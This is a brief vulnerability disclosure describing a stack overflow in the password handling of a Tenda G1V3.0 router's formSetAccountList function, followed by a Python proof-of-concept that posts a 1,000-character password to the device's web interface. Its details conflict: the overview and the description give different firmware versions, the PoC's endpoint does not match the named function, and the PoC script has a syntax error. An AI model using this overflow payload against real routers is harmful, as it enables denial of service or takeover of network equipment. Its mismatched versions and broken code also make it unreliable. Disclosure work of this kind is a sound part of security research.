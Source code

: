 # Tenda G1V3.0 formSetAccountList
### Overview
vendor: Tenda Enterprise-level wired router

product: G1V3.0 

version: V16.01.0.13(3742)

type: Stack Overflow
### Vulnerability Description
Tenda G1V3.0 Enterprise-level wired router V16.01.7.7(2631) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/w18e-3-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

